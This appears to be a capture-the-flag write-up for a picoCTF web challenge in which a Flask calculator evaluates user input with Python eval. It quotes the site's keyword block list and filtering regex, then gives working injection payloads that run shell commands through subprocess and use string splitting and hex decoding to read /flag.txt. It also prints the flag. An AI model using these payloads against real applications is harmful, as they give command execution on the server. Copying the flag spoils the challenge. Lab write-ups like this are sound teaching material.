 # 3v@l 🕸️

> Category: Web Exploitation 🕸️

![img](challenge.png)

> Hints:
>1. Bypass regex
>2. The flag file is /flag.txt
>3. You might need encoding or dynamic construction to bypass restrictions.

![img](site.png)

Basically, this site function as a bank-loan calculator. We can try to test what the output will look like

![img](example.png)

In this example, I use **5*2** which expected to be **10** as the result.

![img](result.png)

First, we need to check the source code of the challenge.

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

Breakdown of the regex:
```
1. 0x[0-9A-Fa-f]+ : Prevent user to encode data in hex (0x123...) format to bypass the regex.
2. \\u[0-9A-Fa-f]{4} : Block unicode-based (\u00..) encoding tricks.
3. %[0-9A-Fa-f]{2} : Prevents encoding characters (%2F) to bypass the regex.
4. \.[A-Za-z0-9]{1,3}\b : Blocks access to files with extension (.sh or .txt or etc).
5. [\\\/] : Block \ and /.
6. \.\. : Prevents directory traversal (../).
```
So, we need to bypass this regex.

## Solution

We know that it is a **python flask** and we need to find some payload to bypass the **eval** function.

Due to **os** has been blocked, we try to use this payload template and insert command as needed:

```python
__import__('subprocess').getoutput('commmand_here')
```

First, try to check the directory by using **ls** command but change a bit to bypass the blocked keyword:

```python
__import__('subprocess').getoutput('l'+'s')
```

![img](payload1.png)

There we go, there is an output to the changed command.

From the given hint, the flag file is **/flag.txt**.

Next, we need to view the content of the **/flag.txt**, however **/**, **.txt** and **cat** command are blocked by the regex.

But, we can try to encode the **/flag.txt** to hex using this website https://www.rapidtables.com/convert/number/ascii-to-hex.html and we get
>2F 66 6C 61 67 2E 74 78 74 

We also can try to change the **cat** command like we did before to craft our final payload as:

```python
__import__('subprocess').getoutput('c'+'at ' + bytes.fromhex('2f666c61672e747874').decode())
```

## 🏳️Flag:
> picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}